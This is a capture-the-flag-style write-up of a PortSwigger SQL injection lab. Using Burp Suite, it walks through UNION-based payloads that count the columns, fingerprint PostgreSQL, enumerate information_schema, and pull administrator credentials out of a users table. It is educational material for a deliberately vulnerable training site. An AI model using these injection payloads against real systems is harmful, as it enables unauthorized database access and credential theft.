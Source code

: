 # SQLi Lab #5 Writeup

https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

## Lab: SQL injection UNION attack, retrieving data from other tables

In this lab, Burp Suite will be used to find the administrator login credentials to the vulnerable website. 

After loading the lab, enable the Burp Suite proxy. Then turn on the intercept in Burp Suite and load the "Gifts" section of the vulnerable website. Burp Suite will then intercept that packet so it can be sent to the Repeater.

Now, the innards of the database can be examined through the use of some payloads.



<br>
Each payload will be entered right after the "gifts" part of the URL, as the categories field is what is vulnerable in this lab.

<br>

> Don't forget to 'ctrl u' or 'command u' in order to URL encode your paylod.



<br>

# 
### **1. Determine the number of columns with the following iterative payload process.**



```SQL
' order by 1--
```
This resulted in a 200 response code, meaning there is at least 1 column (*obviously, heh*).

<br>

```SQL
' order by 2--
```
200 status code

<br>

```SQL
' order by 3--
```
500 Internal Server Error

Because this was solved iteratively, the amount of columns is: 3 - 1 = 2.

<br>

> **Number of Data Columns = 2**

<br>

#

### **2. Determine the data types of the columns.**

<br>
Since both columns of data on the website are just text, the initial guess is that both columns are strings.

```SQL
' UNION select 'a', 'a'--
```
200 Status Code

Due to the 200 status code, both of the columns are strings. If there were an error, try different data types (1, 1.1, etc.) using 'NULL' as a place holder for the other column.

<br>

> **Both columns are strings.**

<br>

#

### **3. Find the the type and version of the database.**

I'll be using the following link as a cheat sheet.
https://portswigger.net/web-security/sql-injection/cheat-sheet


Microsoft Database Version Payload:
```SQL
' UNION SELECT @@version, NULL--
```
500 error, it is not a microsoft database.

<br> 

PostgreSQL Database Version Payload:
```SQL
' UNION SELECT version(), NULL--
```
200 status code; it is a postgreSQL database.

After looking into the 200 response, I can see that the version is the following:

```HTML
<th>
PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on
x86_64-pc-linux-gnu, compiled by gcc 
(Ubuntu 9.4.0-1ubuntu1~20041) 9.4.0, 64-bit
</th>
```
<br>

> **Database Type = PostgreSQL**

<br>

#

### **4. Now that the database type is known, find the table names within the database.**
The portswigger cheat sheet shows to use the following to try and info from postgreSQL databases.
```SQL
SELECT * FROM information_schema.tables
```
Instead of *, find the correct name by looking at postgreSQL's documentation. This can be found by googling "information_schema.tables postgreSQL".

In the following link the table names for postgreSQL are identified as 'table_name'.
https://www.postgresql.org/docs/current/infoschema-columns.html

<br>

Therefore, the two column payload is:
```SQL
' UNION SELECT table_name, NULL FROM information_schema.tables--
```
200 status code

In the 200 response, 'users' can be identified as one of the table names. This can be searched in the bottom search bar in Burp Suite repeater to keep from having to look through the whole response.

```HTML
<th>
users
</th>    
```
<br>

> **Table name = users**

<br>

#

### **5. Find the column names of the table name 'users'.**

Using the portswigger cheat sheet, the payload will look something like this:
```SQL
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
Instead of *, the postgreSQL website shows that the name of columns is column_name. 
```SQL
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'--
```
200 status code

Two of the columns in the response are named password and username. 

<br>

> **Column Names = Username, Password**

<br>

#

### **6. Now that the table and columns are known, call them using a standard UNION injection.**

```SQL
' UNION select username, password FROM users--
```
200 status code

The final injection gives the administrator password and username displayed in the response.
```HTML
                           <th>administrator</th>
                            <td>787wo1nrar3t43x9pcko</td>
```

<br>

> **Username = administrator** 

> **Password = 787wo1nrar3t43x9pcko** 

<br>

#

### **7. Return to the login page of the vulnerable website and login with that information.**


<br>

### Congratulations! The lab has been solved!


